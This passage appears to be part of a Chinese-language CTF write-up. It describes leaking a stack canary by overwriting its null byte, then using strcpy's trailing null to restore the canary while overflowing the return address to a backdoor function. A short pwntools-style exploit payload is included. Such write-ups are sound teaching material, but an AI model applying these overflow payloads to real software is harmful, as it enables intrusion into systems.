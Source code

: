 [![](assets/1706146504-5712879b64a435ca1a6c101dca9b536b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233716-f49e74c8-b872-1.png)  
覆盖 00，然后泄露出来减去 0x61 即可  
然后后面利用 strcpy 去溢出覆盖返回地址

```bash
backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)
```

这里是利用的 strcpy 的一个特性  
strcpy 遇到'\\x00'截断，不过会在最后加'\\x00'  
先填上 canary+0xaa，然后直接利用 strcpy 最后的置 0 就可以

[![](assets/1706146504-4aae8613710975bd00de5ef2190af145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233741-0355b846-b873-1.png)
